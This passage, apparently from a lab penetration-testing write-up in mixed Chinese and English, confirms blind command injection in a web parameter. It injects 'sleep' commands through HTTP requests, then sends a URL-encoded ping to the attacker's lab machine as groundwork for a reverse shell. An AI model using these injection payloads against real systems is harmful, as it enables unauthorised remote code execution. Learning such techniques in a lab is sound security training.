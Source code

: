 Request：

```
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
```

在Response的右下角，有`5.005 millis`。

Request：

```
GET /script.php?c=sleep+2&ok=ok HTTP/1.1
```

在Response的右下角，有`2.003 millis`。

This confirm the bind remote code execution vulnerability.

Let's take a look at another senario. See we want to check there is a network connect activity, so we have a fundation of our reverse shell. Can we ping attacking machine? Let's find out. In order to do so, we need network sniffer, In this case, let's use Wireshark, and set the filter just catch ICMP protocol.

display filter: `icmp`.

在攻击者机器上：

```
ifconfig | grep 192
    inet 192.168.139.130 netmask 255.255.255.0 broadcast 192.168.139.255
```

Let's inject `ping` command in the vulnerable parameter. Note that on Linux systems the ping would run infinitely by default. So we use `-c` parameter to limit the number of ping requests to 5.

在Burp Suite的Repeater中：

Request：`ping 192.168.139.130 -c 5`，Select URL encoding `Convert selection->URL->URL-encode key characters` to limit the spaces or other characters might break the HTTP request syntax.

```
GET /script.php?c=ping%20192.168.139.130%20-c%205&ok=ok HTTP/1.1
```

As you can see, exactly 5 ping request were sent.

![ping-attacker-icmp.png](/img/in-post/ine/ping-attacker-icmp.png)
